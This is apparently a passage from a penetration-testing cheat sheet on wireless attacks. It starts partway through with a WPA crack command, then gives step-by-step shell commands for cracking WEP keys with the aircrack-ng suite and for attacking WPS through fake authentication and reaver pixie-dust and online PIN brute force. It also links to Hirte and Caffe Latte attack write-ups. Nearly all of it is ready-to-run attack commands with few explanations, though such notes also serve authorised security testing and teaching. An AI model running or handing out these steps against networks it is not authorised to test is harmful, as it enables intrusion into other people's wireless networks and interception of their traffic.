 ### Crack 
```bash
aircrack-ng <CAPTURE_NAME>
```

## WEP (Wired Equivalent Privacy)
WEP is a severely flawed security algorithm for IEEE 802.11 wireless networks. Below are the steps to exploit WEP vulnerabilities:


### Step 1: Kill conflicting processes
```bash
sudo airmon-ng check kill
```
### Step 2: Start monitor mode on wlan0
```bash
sudo airmon-ng start wlan0
```
### Step 3: Scan for WEP networks
```bash
sudo airodump-ng wlan0mon --encrypt WEP
```
### Step 4: Capture IVs
```bash
besside-ng -c Channel -b BSSID wlan0mon
```
### Step 5: Crack WEP key
```bash
aircrack-ng ./wep.cap
```

### Additional WEP Attacks:
- [Hirte Attack](https://pentestlab.blog/2015/02/03/hirte-attack/)
- [Caffe Latte Attck](https://www.computerworld.com/article/2539400/cafe-latte-attack-steals-data-from-wi-fi-users.html)

## WPS (Wi-Fi Protected Setup)
WPS was originally known as Wi-Fi Simple Configuration, aiming to unify vendor technologies for secure WPA/WPA2 passphrase sharing. However, it has its set of vulnerabilities. Below are the steps to identify and exploit WPS vulnerabilities:

### Identifying access points with WPS enabled
```bash
wash -i <INTERFACE> -s
```
### Fake authentication attack
```bash
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>
```
### Offline brute force (pixie dust)
```bash
reaver -i wlan0 -b BSSID -SNLAvv  -c 1 -K
```
### Online brute force 
```bash
reaver -i <INTERFACE> -b <BSSID> -SNLAsvv -d 1 -r 5:3 -c <CHANNEL_NUMBER>
```
